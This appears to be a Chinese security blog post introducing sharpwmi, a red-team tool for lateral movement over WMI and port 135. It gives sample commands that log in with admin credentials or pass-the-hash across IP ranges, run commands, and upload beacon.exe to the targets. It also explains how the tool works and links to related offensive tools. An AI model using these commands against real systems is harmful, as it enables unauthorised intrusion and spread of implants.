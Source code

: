 #  一个基于rpc的横向移动工具，具有上传文件和执行命令功能。

upzhu  [ x9sec ](javascript:void\(0\);)

**x9sec** ![]()

微信号 x9sec_com

功能介绍 进行网络安全知识分享，渗透测试，红队蓝队技术分享，安全开发平台开源

____

___发表于_

收录于合集

  
**声明：**
该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本  
公众号无关。  
---  
  
  

  

 **项目简介**

  

这是一个基于135端口来进行横向移动的工具,具有执行命令和上传文件功能,通过wmi来执行命令,通过注册表来进行数据传输.

 **项目描述**  

 **命令  
**

  *   *   *   *   * 

    
    
     sharpwmi.exe login 192.168.2.3 administrator 123 cmd whoamisharpwmi.exe login 192.168.2.3/24 administrator 123 cmd whoamisharpwmi.exe login 192.168.2.3-23 administrator 123 upload beacon.exe c:\beacon.exesharpwmi.exe pth 192.168.2.3-192.168.2.77 cmd whoamisharpwmi.exe pth 192.168.2.3/255.255.255.0 upload beacon.exe c:\beacon.exe
    
    
     **  
    **

##  **原理:**

###

###  **执行命令** ：

通过wmi来执行命令，server将命令结果存在本机注册表，然后client连接注册表进行读取命令结果

###

###  **上传文件:**

client将需要上传的文件放到server的注册表里面，然后server通过powershell来操作注册表方式来取文件然后释放到本地

##

##  **优点：**

  * 不依赖139和445端口

##

##  **缺点：**

  * 目前只支持上传512kb以下的文件，因为注册表每个值值长度不能超过512kb。

  * 执行命令和上传文件都依赖powershell

##

##  **todo:**

  * 用添加增加多个值的方式来实现上传任意大小文件

  * 去除powershell依赖![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181008.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181009.png)  

  
 ****

 **下载地址**

 **项目地址：** https://github.com/idiotc4t/sharpwmi ****

 **添加管理微信进内部交流群**  

 **  
**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181011.png)

 **  
**

# **  往期推荐**  

[WebSocket
内存马/Webshell，一种新型内存马/WebShell技术](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485218&idx=1&sn=253e80ffe166a1d6f2d49e4ce3a3d9aa&chksm=fcedb385cb9a3a93f2af164a433ea7450fbc42de90b1e155ed6002083def4686410395dc4d53&scene=21#wechat_redirect)  

[Chunsou（春蒐），Web指纹资产识别，风险收敛以及企业互联网资产风险摸查识别工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485204&idx=1&sn=6fb5b82803fe00de48be2400a9246149&chksm=fcedb3b3cb9a3aa5208f0e8c45a260cc482fb73ff40afa45f745a7eb45a389a48792e8c0518c&scene=21#wechat_redirect)  

[Nacos Hessian
反序列化漏洞利用工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485190&idx=1&sn=c53db63cfaf46560d3369806321bc275&chksm=fcedb3a1cb9a3ab754c81a351965d1551b591ec5626af76aa5673d2400a9171729de39f80e9e&scene=21#wechat_redirect)  

[myscan
集成多个框架的漏洞扫描工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485181&idx=1&sn=2f91540e572397e15627cddb2ba24c4d&chksm=fcedb25acb9a3b4c2f7ee781fbca46ee1385afe194581f801c8721c72911a51211ac7779d173&scene=21#wechat_redirect)  

[Burp的JS
API接口过滤插件](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485160&idx=1&sn=55fb551de62132f0aacaff2821b24eb2&chksm=fcedb24fcb9a3b59e8bebafb9189e912a5e844c4c176df200e4cd4459510a7f8580a8f8aaac5&scene=21#wechat_redirect)  

[通达OA检测工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485131&idx=1&sn=bccb90bc296d87908f073ac8f6c317a0&chksm=fcedb26ccb9a3b7aeeb7c6beec9ba5fe7af4168ff731dfe1429c2daaebe3425d888b7da1eb80&scene=21#wechat_redirect)  

[从零学习Webshell免杀手册](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485091&idx=1&sn=591916b62674003afd2f57bba780cef5&chksm=fcedb204cb9a3b1209e510ed72ad42984a6ef5b62736164bd5474ff28d81b99ae9f9368ad0e2&scene=21#wechat_redirect)  

[爬网站JS文件，自动fuzz
api接口，指定api接口](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485069&idx=1&sn=e94bad6d0f927441b7cb5c533d2e369d&chksm=fcedb22acb9a3b3cfb57e9d40f8898c51fa4c9fa3562bd112b5d489f9cba5cf81637d1558b53&scene=21#wechat_redirect)  

[生成各类免杀webshell适合市面上常见的几种webshell管理工具、冰蝎、蚁剑、哥斯拉](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485058&idx=1&sn=ac47be9a9d0c6aba0ec991e5213a903e&chksm=fcedb225cb9a3b3312a895ec7da3819216fde632546b644f943a6b31c3b6efa6db3624f6edf7&scene=21#wechat_redirect)  

[一款新的webshell管理工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485049&idx=1&sn=e02753cc60ea620882710bf9cf7b23b0&chksm=fcedb2decb9a3bc82b6dc1d9da9bc9c112ceedf608732c8d3338b04c4ffa5b44ebe28355272c&scene=21#wechat_redirect)  

[浏览器插件--
右键检测图片是否存在Exif漏洞](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485033&idx=1&sn=184c7486a3fb0f06b27885e881146561&chksm=fcedb2cecb9a3bd82564162a5a013261acad3b244ba67af527b211175701b5ebc617f731fafe&scene=21#wechat_redirect)  

[一个自动化通用爬虫
用于自动化获取网站的URL](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485003&idx=1&sn=914d8bcd37af1e43ea293b20a6b7976e&chksm=fcedb2eccb9a3bfa7174dfba94b4b85570ab818f875acbcef26163c173ae7c67c4c153f6d191&scene=21#wechat_redirect)  

[一个查询IP地理信息和CDN服务提供商的离线终端工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484994&idx=1&sn=55a0986b58d7bff15e8f55fd4b495204&chksm=fcedb2e5cb9a3bf3bc6d55f4e292fa43b4cb563012593b0f7832c040e0616f2aac53975dc31b&scene=21#wechat_redirect)  

[红队批量脆弱点搜集工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484965&idx=1&sn=70e48cdcb7683b227bc3f8d8efd05a6a&chksm=fcedb282cb9a3b942c93edec939bf9943a66d7345c40916e3c17a369ace2d0a9eed83ccf5ae8&scene=21#wechat_redirect)  

[Spring漏洞综合利用工具——Spring_All_Reachable](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484989&idx=1&sn=bfa97e5279e921e26631b9f93a75eefe&chksm=fcedb29acb9a3b8c178d47f04eaee53aabeb8e27b2c06e12d7f8a0916ea288b2a7ad94f4da3e&scene=21#wechat_redirect)  

[利用字符集编码绕过waf的burpsuite插件](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484894&idx=1&sn=33cec3b0baa230be290d7c62935d0dd5&chksm=fcedb179cb9a386f103c044a2fcb481e31efc4358c808b38c7d4cd961ec99cbd72ac80175b8a&scene=21#wechat_redirect)  

[云安全-
AK/SK泄露利用工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484850&idx=1&sn=785ebf6284c536262a08a6713cbcac8a&chksm=fcedb115cb9a38030cfe0024ecd722b3269d6eeddcd0845433f73ab68660ed776019b7a1f649&scene=21#wechat_redirect)  

[可以自定义规则的密码字典生成器](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484816&idx=1&sn=80a19335226b0e242a36a85486c541fc&chksm=fcedb137cb9a382100c0fbb51875de2a1183f46acccced953d4ee927c3f627d8d8e4a3f660d4&scene=21#wechat_redirect)  

[MySql、Oracle、金仓、达梦、神通等数据库、Redis等管理工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484787&idx=1&sn=766263e71666745fca6a1fe71b016170&chksm=fcedb1d4cb9a38c2cccc8c58afb34b31677974540d45ad9db5f032c0eba6c7ff26527c0dbd2c&scene=21#wechat_redirect)  

[JNDI/LDAP注入利用工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484743&idx=1&sn=42224dd27e62cb0d7a5cbdebf4dbbf19&chksm=fcedb1e0cb9a38f6b091c5a753c80b411bb92197ea02439a0493886ad55b7203fed057ec7718&scene=21#wechat_redirect)  

[jmx未授权访问 弱口令批量检测 GUI工具 -
jmxbfGUI](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484738&idx=1&sn=3d7cf4b2ec5bc5a92de3db9c57fe036e&chksm=fcedb1e5cb9a38f3e8d8fce41bfd4ac22d001c075bfe2f1425f1a90643ede8b93bce377fa787&scene=21#wechat_redirect)  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

